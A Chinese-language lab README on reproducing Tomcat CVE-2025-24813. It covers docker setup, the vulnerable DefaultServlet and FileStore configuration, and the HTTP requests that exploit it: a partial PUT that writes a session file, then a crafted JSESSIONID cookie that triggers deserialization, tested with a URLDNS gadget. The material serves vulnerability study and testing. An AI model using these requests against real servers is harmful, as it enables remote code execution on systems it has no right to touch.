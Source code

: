 # Tomcat 远程代码执行漏洞（CVE-2025-24813）

Apache Tomcat 是一个广泛使用的开源Java Servlet、JavaServer Pages、Java Expression Language和WebSocket技术的实现。

在 Tomcat 版本 9.x ~ 9.0.97，10.x ~ 10.1.34, 11.x ~ 11.0.2 中，当 Tomcat 同时配置了可写的 DefaultServlet（readonly=false）和基于文件的会话持久化时，攻击者可以向服务器写入任意文件，并通过操作 JSESSIONID cookie 触发这些文件的反序列化，最终导致远程代码执行。

- <https://lists.apache.org/thread/j5fkjv2k477os90nczf2v9l61fb0kkgq>
- <https://github.com/charis3306/CVE-2025-24813>
- <https://forum.butian.net/article/674>

## 环境搭建

执行以下命令启动存在漏洞的Tomcat 9.0.97服务器：

```
docker compose build
docker compose up -d
```

服务启动后，访问`http://your-ip:8080`即可看到Tomcat的示例页面。

## 漏洞复现

该漏洞存在的原因是Tomcat中两个关键的错误配置。首先，DefaultServlet配置了readonly=false，允许文件上传：

```xml
<servlet>
    <servlet-name>default</servlet-name>
    <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>
    <init-param>
        <param-name>debug</param-name>
        <param-value>0</param-value>
    </init-param>
    <init-param>
        <param-name>listings</param-name>
        <param-value>false</param-value>
    </init-param>
    <init-param>
        <param-name>readonly</param-name>
        <param-value>false</param-value>
    </init-param>
    <load-on-startup>1</load-on-startup>
</servlet>
```

其次，Tomcat配置了基于文件的Session持久化：

```xml
<Manager className="org.apache.catalina.session.PersistentManager">
    <Store className="org.apache.catalina.session.FileStore"/>
</Manager>
```

这两种配置都使用相同的默认存储路径：`$CATALINA_BASE/work/Catalina/localhost/ROOT`。

当发送不完全的PUT请求（使用`Content-Range`头）时，Tomcat会将文件路径中的分隔符(/)转换为句点(.)，并将文件临时存储在会话存储目录中。利用这个特效，我们可以将恶意序列化对象写入此临时文件中。

要利用此漏洞，首先发送带有Content-Range头的部分PUT请求，在临时目录中写入名为.deserialize.session的文件（这里使用URLDNS gadget进行测试）：

```
PUT /deserialize/session HTTP/1.1
Host: your-ip:8080
Content-Length: 1234
Content-Range: bytes 0-5/10

deserialize content
```

![](1.png)

然后，发送另一个带有操作过的JSESSIONID cookie的请求，触发文件的反序列化：

```
GET / HTTP/1.1
Host: your-ip:8080
Cookie: JSESSIONID=.deserialize


```

![](2.png)

可见，URLDNS gadget被成功反序列化，并发送了DNS请求：

![](3.png)

在实际攻击场景中，"deserialize content"将被替换为恶意的序列化Java对象，当被目标应用反序列化时可以执行任意代码。
